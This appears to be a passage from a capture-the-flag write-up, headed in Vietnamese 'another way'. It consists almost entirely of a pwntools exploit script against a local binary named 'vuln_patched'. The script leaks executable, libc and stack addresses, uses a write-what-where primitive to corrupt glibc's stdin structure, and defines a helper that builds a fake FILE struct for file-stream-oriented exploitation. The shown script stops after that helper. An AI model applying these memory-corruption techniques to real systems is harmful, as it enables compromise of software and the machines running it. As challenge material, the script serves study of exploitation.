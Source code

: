1 cách khác 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
"""
gdb.attach(p,gdbscript='''
           brva 0x00000000000012E4
           brva 0x0000000000001318
           ''')
"""
exe.address = int((b'0x' + p.recvuntil(b'-')[:-1]),16)
log.info(f'exe: {hex(exe.address)}')

p.recvlines(8)
libc.address = int((b'0x' + p.recvuntil(b'-')[:-1]),16)
log.info(f'libc {hex(libc.address)}')
p.recvuntil(b'Here is an extra: ')
stack_leak = int(p.recvline()[:-1],16)
log.info(f'stack: {hex(stack_leak)}')
log.info(f'stdin: {hex(libc.sym._IO_2_1_stdin_)}')
log.info(f'stdout: {hex(libc.sym._IO_2_1_stdout_)}')

_IO_stdfile_0_lock = 0x240720 + libc.address
_IO_wide_data_0 = 0x23e9c0

val = ((libc.sym._IO_2_1_stdout_ + 0x300) & 0xff00) >> 8

input()
p.sendlineafter(b'Where: ',str(libc.sym._IO_2_1_stdin_+0x41))
p.sendafter(b'What: ',p8(val))

def FSOP_struct(flags = 0, _IO_read_ptr = 0, _IO_read_end = 0, _IO_read_base = 0,\
_IO_write_base = 0, _IO_write_ptr = 0, _IO_write_end = 0, _IO_buf_base = 0, _IO_buf_end = 0,\
_IO_save_base = 0, _IO_backup_base = 0, _IO_save_end = 0, _markers= 0, _chain = 0, _fileno = 0,\
_flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0, _shortbuf = 0, lock = 0,\
_offset = 0, _codecvt = 0, _wide_data = 0, _freeres_list = 0, _freeres_buf = 0,\
__pad5 = 0, _mode = 0, _unused2 = b"", vtable = 0, more_append = b""):

    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00"*0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")

    FSOP += p64(vtable)
    FSOP += more_append
```
